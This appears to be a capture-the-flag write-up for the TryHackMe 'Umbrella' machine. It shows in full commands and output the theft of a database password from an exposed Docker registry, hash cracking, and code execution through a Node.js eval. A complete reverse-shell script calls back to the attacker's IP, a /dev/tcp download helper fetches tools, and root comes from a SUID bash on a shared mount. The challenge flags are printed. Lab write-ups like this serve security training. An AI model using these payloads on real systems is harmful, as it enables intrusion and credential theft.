







## TL;DR

In this challenge, we find `mysql` credentials on the docker registry at port `5000`. Then, we use this credentials to login via ssh and grab the user flag.

We find get `RCE` on port `8080` using unsecure `eval` on `node.js`, and get root shell inside container. Using mounted share, we privilege escalate to root. 

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh, port `3306` with mysql service, port `5000` with Docker registry and port `8080` with node.js server.
```bash
PORT     STATE SERVICE REASON         VERSION                                                                                                                                                                                                                                 
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)                                                                                                                                                                           
| ssh-hostkey:                                                                                                                                                                                                                                                                
|   3072 f8:15:74:3f:5d:d6:32:e9:fe:51:8b:ac:9c:88:a5:0b (RSA)                                                                                                                                                                                                                
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCqA2vZ8trGaiWorykMUFEMTqiLvSJKwCf0yMyEUZ6QVRTHHcx22Wk3K3BWvCRzu3d4GyO6nwmUVb+b8AFmeqPmCSVD+icOicaMreD0/S52u3850k0I8x4jZrOvkDOvzyjCTy/UUll652zYWOnjMdfJWUxGjAybklbi+7Ewyk6rxJUD9P6QpYATqhFQq15EN0+/E2JoI7Vu3VPxkEdupJiFE4Xe/2x2AfNBzwzJ
8kvPO9kchZoTKbPykW60Ins/cqPbbD31Y00Y/ZjgJAcDRaCEH9pOK+MruIr7gtRTCsC3MYn6aT0C/2gwZ4Fl9/thihqeX9Q+8P05VEPAgqzEdb+YQrrntMIH1+noLOyqRQNzAi7WLwuzKtEuhlR2PBLfVL/mDWLx8CdLfzhnwYfzkwaaBYNqDLAnME8MK7flTW5vhPo43QUOzomev0e2EbPzkRcsBaimWBm4BY+rxQKPqiF78zNpYtS2YSY8C6fD4DjgRvDQD5iGaWtJ+uhatHVh+y0=                                                     
|   256 ef:5b:79:0d:69:c9:ec:2e:1d:bf:b0:39:b3:1a:13:99 (ECDSA)                                                                        
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPXE+5uIvHKy0RP8/QJnGck2v9yEn6Qr0hEqR42olCqFSZYU4O4cJMOSUm8IMupZHx985rfNihRrLPebuU3cEkw=                                                                                                            
|   256 29:fb:ed:f3:e6:60:12:72:75:6c:88:ff:1e:f8:ed:ee (ED25519)                                                                      
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMSfZG39rG0CQMixXQtOByIkYYpHPiXRv6YmHC1DQOve                                                                                                                                                                                            
3306/tcp open  mysql   syn-ack ttl 61 MySQL 5.7.40                                                                                     
| ssl-cert: Subject: commonName=MySQL_Server_5.7.40_Auto_Generated_Server_Certificate                                                                                                                                                                                         
| Issuer: commonName=MySQL_Server_5.7.40_Auto_Generated_CA_Certificate                                                                 
| Public Key type: rsa                                             
| Public Key bits: 2048                                            
| Signature Algorithm: sha256WithRSAEncryption                                                                                         
| Not valid before: 2022-12-22T10:04:49                                                                                                
| Not valid after:  2032-12-19T10:04:49                                                                                                
| MD5:   c512:bd8c:75b6:afa8:fde3:bc14:0f3e:7764                                                                                       
| SHA-1: 8f11:0b77:1387:0438:fc69:658a:eb43:1671:715c:d421                                                                             
| -----BEGIN CERTIFICATE-----                                      
| MIIDBzCCAe+gAwIBAgIBAjANBgkqhkiG9w0BAQsFADA8MTowOAYDVQQDDDFNeVNR                                                                     
| TF9TZXJ2ZXJfNS43LjQwX0F1dG9fR2VuZXJhdGVkX0NBX0NlcnRpZmljYXRlMB4X                                                                     
| DTIyMTIyMjEwMDQ0OVoXDTMyMTIxOTEwMDQ0OVowQDE+MDwGA1UEAww1TXlTUUxf                                                                     
| U2VydmVyXzUuNy40MF9BdXRvX0dlbmVyYXRlZF9TZXJ2ZXJfQ2VydGlmaWNhdGUw                                                                     
| ggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC8KqoE91ydQZJDUqWE/nfs                                                                     
| 6akfHB2g3D1VJoX+DeuTxEubjmWy+jGOepvEbKEhjrLMl9+LIj3vkKlj1bpRw0x1                                                                     
| 7tbY7NXPtz5EsOCqDcuGl8XjIBE6ck+4yK8jmzgCMOHhJjoAtcsgAOcnal0WCCyB                                                                     
| 7IS4uvHi7RSHKPrcAf9wgL5sUZylaH1HWiPXDd0141fVVpAtkkdjOUCPwZtF5MKC                                                                     
| W6gOfgxMsvYoqY0dEHW2LAh+gw10nZsJ/xm9P0s4uWLKrYmHRuub+CC2U5fs5eOk                                                                     
| mjIk8ypRfP5mdUK3yLWkGwGbq1D0W90DzmHhjhPm96uEOvaomvIK9cHzmtZHRe1r                                                                     
| AgMBAAGjEDAOMAwGA1UdEwEB/wQCMAAwDQYJKoZIhvcNAQELBQADggEBAGkpBg5j                                                                     
| bdmgMd30Enh8u8/Z7L4N6IalbBCzYhSkaAGrWYh42FhFkd9aAsnbawK+lWWEsMlY                                                                     
| +arjrwD0TE6XzwvfdYsVwOdARPAwm4Xe3odcisBvySAeOE6laaCnIWnpH/OqGDEk                                                                     
| GBYfI8+e0CBdjhDNpeWVJEkGv4tzaf6KE1Ix9N2tTF/qCZtmHoOyXQQ7YwBPMRLu                                                                     
| WnmAdmtDYqVEcuHj106v40QvUMKeFgpFH37M+Lat8y3Nn+11BP5QzRLh+GFuQmVc                                                                     
| XaDxVdWXCUMWsbaPNNS+NM9FT7WNkH7xTy2NuBdSFvl88tXNZpnz8nkRxXLarLD8                                                                     
| 2AE6mQqpFHhaSRg=                                                 
|_-----END CERTIFICATE-----                                        
|_ssl-date: TLS randomness does not represent time                                                                                     
| mysql-info:                                                      
|   Protocol: 10                                                   
|   Version: 5.7.40                                                
|   Thread ID: 5                                                   
|   Capabilities flags: 65535                                      
|   Some Capabilities: Support41Auth, LongPassword, Speaks41ProtocolOld, ODBCClient, InteractiveClient, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, FoundRows, DontAllowDatabaseTableColumn, LongColumnFlag, SupportsCompression, Speaks41ProtocolNew, SwitchToSSLAfterHandshake, SupportsLoadDataLocal, SupportsTransactions, ConnectWithDatabase, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins                                                                                                                               
|   Status: Autocommit                                             
|   Salt: \x17~\x7F\x10\x05iYy{?Q\x1B\x0B\x0F\x10 8K"D                                                                                 
|_  Auth Plugin Name: mysql_native_password                                                                                            
5000/tcp open  http    syn-ack ttl 61 Docker Registry (API: 2.0)                                                                       
|_http-title: Site doesn't have a title.                                                                                               
| http-methods:                                                    
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                           
8080/tcp open  http    syn-ack ttl 61 Node.js (Express middleware)                                                                     
| http-methods:                                                    
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                           
|_http-title: Login                                                
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `umbrella.thm` to my `/etc/hosts`   

### Find mysql credentials at port 5000 

I started with port `5000`, I googled and found this page [https://www.verylazytech.com/docker-registry-port-5000](https://www.verylazytech.com/docker-registry-port-5000), This is port `5000`:
> Port 5000 is the default port used by the official Docker private registry image. This port is used for exposing the registry service, which allows users to push and pull Docker images within an organization or local network. 

Okay, so let's start playing, first, check for repositories `/v2/_catalog`;
```bash
┌──(agonen㉿kali)-[~/thm/Umbrella]
└─$ curl http://umbrella.thm:5000/v2/_catalog                                                                                                          
{"repositories":["umbrella/timetracking"]}
```

We got this repository, let's get the manifest of that tag, at `/v2/{tag}/manifests/latest`
```bash
curl http://umbrella.thm:5000/v2/umbrella/timetracking/manifests/latest -sO
```

Okay, let's analyze this file. After some scrolling, I found password for db:
```bash
┌──(agonen㉿kali)-[~/thm/Umbrella]
└─$ grep pass latest -ni
79:         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=root\",\"DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5\",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"node\",\"app.js\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":null},\"container\":\"527e55a70a337461e3615c779b0ad035e0860201e4745821c5f3bc4dcd7e6ef9\",\"container_config\":{\"Hostname\":\"527e55a70a33\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=root\",\"DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5\",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"/bin/sh\",\"-c\",\"#(nop) \",\"CMD [\\\"node\\\" \\\"app.js\\\"]\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":{}},\"created\":\"2022-12-22T10:03:08.042002316Z\",\"docker_version\":\"20.10.17\",\"id\":\"7aec279d6e756678a51a8f075db1f0a053546364bcf5455f482870cef3b924b4\",\"os\":\"linux\",\"parent\":\"47c36cf308f072d4b86c63dbd2933d1a49bf7adb87b0e43579d9c7f5e6830ab8\",\"throwaway\":true}"
106:         "v1Compatibility": "{\"id\":\"15da84a53f8e99c1b070fa72a863ba37ccfd70e0df889ff4a8b03f935e03e98b\",\"parent\":\"1b554b4528b3ad29a93acfab26b606a4c35c1578d23de83af30dac456324f341\",\"created\":\"2022-12-22T10:02:11.638209337Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  ENV DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5\"]},\"throwaway\":true}"
```

And more sorted:
```json
{
  "container": "527e55a70a337461e3615c779b0ad035e0860201e4745821c5f3bc4dcd7e6ef9",
  "container_config": {
    "Hostname": "527e55a70a33",
    "Domainname": "",
    "User": "",
    "AttachStdin": false,
    "AttachStdout": false,
    "AttachStderr": false,
    "ExposedPorts": {
      "8080/tcp": {}
    },
    "Tty": false,
    "OpenStdin": false,
    "StdinOnce": false,
    "Env": [
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "NODE_VERSION=19.3.0",
      "YARN_VERSION=1.22.19",
      "DB_HOST=db",
      "DB_USER=root",
      "DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5",
      "DB_DATABASE=timetracking",
      "LOG_FILE=/logs/tt.log"
    ],
    "Cmd": ["/bin/sh", "-c", "#(nop) ", "CMD [\"node\" \"app.js\"]"],
    "Image": "sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1",
    "Volumes": null,
    "WorkingDir": "/usr/src/app",
    "Entrypoint": ["docker-entrypoint.sh"],
    "OnBuild": null,
    "Labels": {}
  }
}
```

### Find passwords and get RCE on port 8080 eval node.js

We got credentials for the mysql, let's login, I use the flag `--skip-ssl` becuase the cert is doing problem:
```bash
┌──(agonen㉿kali)-[~/thm/Umbrella]
└─$ mysql -u root -h umbrella.thm -p --skip-ssl # Ng1-f3!Pe7-e5?Nf3xe5
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 12
Server version: 5.7.40 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

I found the table `users` inside the database `timetracking`.
we got several hashes
```bash
MySQL [timetracking]> select * from users;
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 |
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 |
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 |
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 |
+----------+----------------------------------+-------+
4 rows in set (0.160 sec)
```

I used [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) and decrypted all hashes


These are the hashes with the passwords.
```bash
0d107d09f5bbe40cade3de5c71e9e9b7:letmein
2ac9cb7dc02b3c0083eb70898e549b63:Password1
4a04890400b5d7bac101baace5d7e994:sandwich
d5c0607301ad5d5c1528962a83992ac8:sunshine1
```

I went to port `8080` and tried to login with one of the users, and it worked (for me, with user `claire-r`):



It looks like some place to execute code with `eval` on `node.js`, I googled for reverse shell and found this [https://gist.github.com/ahhh/428c03af64ac10dcd44b](https://gist.github.com/ahhh/428c03af64ac10dcd44b).

After modification:
```js
var net = require('net');
var spawn = require('child_process').spawn;

HOST="192.168.138.59";
PORT="1337";
TIMEOUT="5000";

if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }

function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn((process.platform.contains('win')?'cmd.exe':'/bin/sh'),[]);
        client.write("Connected\r\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected\r\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}

c(HOST,PORT);
```

Now, simply paste it.

We got root shell. (That's because we are inside a container)



I pasted the penelope payload for easier reverse shell.



### Stumble and login using claire-r credentials

We can easily detect we are inside a container, from the hostname, from the fact `.dockerenv` is found at `/`, and also from the hosts file:
```bash
root@de0610f51845:/home/node# cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.18.0.2      de0610f51845
```

Since both `curl` and `wget` and `nc` aren't installed on the machine (probably alpine based container), we'll use short snippet for our `__curl`
```bash
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```

Now, we can use this to upload `chisel` and `rustscan` to the machine (set up python server on local machine before):
```bash
__curl http://192.168.138.59:8081/rustscan > /tmp/rustscan
```

and also chisel the same way:



Now, let's start explore ip's from `172.18.0.1` to `172.18.0.4`.

After some trying, I stumbled upon dead end. Then, I realized i should've check the credentials I found before for ssh login:
```bash
ssh claire-r@umbrella.thm # Password1
```



Now, we can grab the user flag:
```bash
claire-r@ip-10-66-133-181:~$ cat user.txt 
THM{d832c0e4cf71312708686124f7a6b25e}
```

### Privilege Escalation to Root using mounted share

Inside `claire-r` home folder, we can find the folder `timeTracker-src`.
From the `docker-compose.yml`, we can understand it mounts `/logs` to `/logs`
```bash
claire-r@ip-10-66-133-181:~/timeTracker-src$ cat docker-compose.yml 
version: '3.3'
services:
  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: 'timetracking'
      MYSQL_ROOT_PASSWORD: 'Ng1-f3!Pe7-e5?Nf3xe5'
    ports:
      - '3306:3306'     
    volumes:
      - ./db:/docker-entrypoint-initdb.d
  app:
    image: umbrella/timetracking:latest
    restart: always
    ports:
      - '8080:8080'
    volumes:
      - ./logs:/logs
```

Like this folder `logs` on the host machine:
```bash
claire-r@ip-10-66-133-181:~/timeTracker-src$ ls -la logs/
total 12
drwxrw-rw- 2 claire-r claire-r 4096 Dec 22  2022 .
drwxrwxr-x 6 claire-r claire-r 4096 Dec 22  2022 ..
-rw-r--r-- 1 root     root      542 Jan 28 17:31 tt.log
```

To the folder `logs` on the docker container:
```bash
root@de0610f51845:~# ls -la /logs/
total 12
drwxrw-rw- 2 1001 1001 4096 Dec 22  2022 .
drwxr-xr-x 1 root root 4096 Dec 22  2022 ..
-rw-r--r-- 1 root root  542 Jan 28 17:31 tt.log
```

Now, we can copy `/bin/bash` to this folder on the host machine, then on the container we'll change ownership to root and add SUID bit, and it will apply also to the host machine.

First, copy `/bin/bash`, on the host machine:
```bash
claire-r@ip-10-66-133-181:~/timeTracker-src/logs$ cp /bin/bash .
```

Then, on the root machine:
```bash
root@de0610f51845:/logs# ls -la
total 1168
drwxrw-rw- 2 1001 1001    4096 Jan 28 17:54 .
drwxr-xr-x 1 root root    4096 Dec 22  2022 ..
-rwxr-xr-x 1 1001 1001 1183448 Jan 28 17:54 bash
-rw-r--r-- 1 root root     542 Jan 28 17:31 tt.log
root@de0610f51845:/logs# chown root:root bash
root@de0610f51845:/logs# chmod u+s bash
```

Now, on the host machine back, check and spawn root shell:
```bash
claire-r@ip-10-66-133-181:~/timeTracker-src/logs$ ls -la bash
-rwsr-xr-x 1 root root 1183448 Jan 28 17:54 bash
claire-r@ip-10-66-133-181:~/timeTracker-src/logs$ ./bash -p
bash-5.0# id
uid=1001(claire-r) gid=1001(claire-r) euid=0(root) groups=1001(claire-r)
```



and the root flag:
```bash
bash-5.0# cat /root/root.txt 
THM{1e15fbe7978061c6bb1924124fd9eab2}
```
